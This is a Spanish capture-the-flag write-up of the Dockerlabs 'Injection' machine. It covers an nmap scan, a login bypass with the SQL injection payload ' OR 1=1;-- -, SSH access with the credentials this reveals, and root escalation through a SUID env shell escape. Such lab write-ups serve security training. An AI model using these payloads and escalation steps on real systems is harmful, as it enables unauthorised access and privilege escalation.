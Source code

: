 # 🖥️ Writeup - Injection

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip injection.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh injection.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 16:34 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Entramos en el puerto `80` y nos encontramos con un panel de inicio de sesión.

Dado que la máquina se llama `injection`, probamos manualmente algunos de los comandos de `SQLi` más comunes.

![alt text](../images/sqli.png)

Funciona a la primera, inyectando el comando `' OR 1=1;-- -` en el campo de usuario y poniendo una contraseña aleatoria.

Una vez dentro, aparece el siguiente mensaje:

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Hemos encontrado credenciales para un usuario `dylan` : `KJSDFG789FGSDF78`.

Accedemos por `SSH` con estas credenciales.

```bash
ssh dylan@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash
find / -perm -4000 -type f 2>/dev/null 
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Comprobamos que podemos ejecutar el binario `env` con privilegios `SUID`, lo cual explotamos de la siguiente manera:

```bash
/usr/bin/env /bin/sh -p
```

Info:
```
# whoami
root
#
```

Ya somos root!